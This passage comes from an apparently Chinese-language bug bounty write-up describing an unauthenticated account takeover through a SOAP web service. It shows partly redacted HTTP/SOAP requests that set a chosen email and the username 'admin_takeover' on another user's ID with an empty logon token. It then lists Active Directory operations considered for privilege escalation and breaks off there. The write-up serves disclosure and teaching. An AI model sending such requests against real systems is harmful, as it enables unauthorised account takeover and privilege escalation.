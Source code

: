 ```
POST /***/**/** HTTP/1.1
Host: target.com
Content-Type: text/xml; charset=utf-8
Content-Length: 401
<?xml version="1.0" encoding="utf-8"?>
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:web="http://**.**/">
  <soapenv:Header/>
  <soapenv:Body>
    <web:I***Email>
      <id***>999</id***>
      <***Email>nc5@intigriti.me</***Email>
      <tokenWebLogon></tokenWebLogon>
    </web:Imp***Email>
  </soapenv:Body>
</soapenv:Envelope>
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaASKxS11kaR4rCIXQnMOxLIs9MxuvRwHJvE1v7aVX84smxyThZILKB2NCLlibxzpciaeJqVAkiajAFOBItbM9U3dA/640?wx_fmt=png&from=appmsg "")  
  
  
响应？  
  
```
<return>true</return>
```  
  
2. 通过SetUserName篡改用户名  
  
  
设置邮箱后，下一步是设置用户名——一个对身份至关重要的参数。使用SetUserName，我为目标ID设置了一个干净的用户名。  
  
```
<web:SetUserName>
  <id***e>999</id***e>
  <s***e>admin_takeover</s**e>
  <tokenWebLogon></tokenWebLogon>
</web:ImpostaNomeUtente>
```  
  
再次确认成功。  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaASKxS11kaR4rCIXQnMOxLIs9MxuvRwHa8yMlh8YGqo0r5pcwu3I8ejAickab5ndlNPKX0yib9Ff21IVibrQKSTeA/640?wx_fmt=png&from=appmsg "")  
  
  
现在，我完全控制了一个用户账户，拥有系统中有效的用户名和邮箱地址，且全程无需任何形式的认证。  
  
  
  
06  
  
步骤五：通过Active Directory操作实现权限提升  
  
安全小白团  
  
  
拥有有效用户后，我们尝试提升其权限。在WSDL中发现了几个可能有用的操作：  
  
```
Modi***ActiveDirectory
SynchronizeSID
SetProfessionalFunctions
```  
  